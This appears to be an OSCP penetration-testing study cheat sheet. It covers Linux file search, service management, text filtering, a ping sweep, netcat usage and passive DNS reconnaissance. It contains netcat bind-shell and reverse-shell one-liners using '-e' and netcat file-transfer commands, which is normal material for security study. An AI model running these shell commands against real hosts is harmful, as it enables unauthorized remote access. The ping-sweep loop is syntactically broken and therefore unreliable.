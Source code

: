 <p align="center">
<font size="20">
  <b>OSCP</b><br>
</font>
 <img src="oscp1.png">
</p>


# Find File:

**locate**
```
updatedb
```
to update the file index database

```
locate [filename]
```
**which**

find the file which has current execution environment

```
which [part of file name]
```

**find**

powerfull search tool with many arguments

```
find [search location]  -name [filename] -exec file "{}"\;
```

# Service managent:

```
service [service name] [option]

```
option could be : start, stop, or restart

alternatevly you can use:

```
/etc/init.d/[service name] [option]
```

or:

```
update-rc.d [service name] [options]

```

options here are: defaults, remove, start , or stop



**GUI service management:**

rcconf

![Alt text](rcconf.png)


sysv--rc-conf

![Alt text](sysv-rc-conf.png)


# Bash Shell

to automate actions you need to write some shell scripts for example filtring domain names from a html page:

``` 
wget cisco.com 
cat index.html | grep "a href=" | cut -d "/" -f3
```

if you get error *ERROR: The certificate of ‘www.cisco.com’ is not trusted.* just use *wget --no-check-certificate cisco.com*

other method:

``
cat index.html |grep 'http://[^"]*' | cut -d "/" -f 3 |sort -u
```

# direct error to null screen (do not show errors)

```
command 2>/dev/null

```
where:

stdin – 0 – Standard Input (usually keyboard or file)

stdout – 1 – Standard Output (usually screen)

stderr – 2 – Standard Error (usually screen)


# Reverse Hex Dump:

```
xxd -r file > output
```
# login with ssh-private key

```
ssh -i [key file path] user@host

```

# ping sweeper:

```
#! /bin/bash
```
for ip in $(1 255) do
ping 192.168.1.$ip | grep "bytes from" | cut -d " " -f4 | cut -d ":" -f1 &
```

the & is to send each command to background and run the next on in the loop

# Rdisktop

```
rdisktop -u *username* -p *password* *hostname/ip*
```

# NetCat

on server side:

```
nc -nlp *port*
```
n stands for numerical host ( no DNS)
l stands for listen
p stands for port

on clinet side:

```
nc -n *netcat Server machine IP address* *port*
```

the port is the server spacified port number 


NetCat file transfare:

```
server side:
nc -npl *port* > *name for the recived file*

client side:
nc -n *serverIP* *serverport* < *path of the file to be send*
```
NetCat Remote Execution:

```
**forword command execution(Bind Shell)**
server side:
nc -lp *port* -e *full path of command to be executed*
clinet side:
nc -n *serverIP* *serverport*
**revirce shell**
server side:
nc -lp *port*
clinet side:
nc -n *serverIP* *serverPort* -e *full path of command to be executed*
```
# Reconnaissance:

Pasive:

```
theHarvester -d *domainname* -b google

```
you can use any other search engen to search in

```
whois *domainname* OR *IP*
```


DNS Enumeration:

``` 
host *internet hostname*
```

that would resolve the hostname to an IP address

```
host -t *DNS recired type* *domain*

recored type such as: ns, mx, a, and aaaa
```

Note -A insted of -t gets all the recoreds ns, mx, a, and aaaa recoreds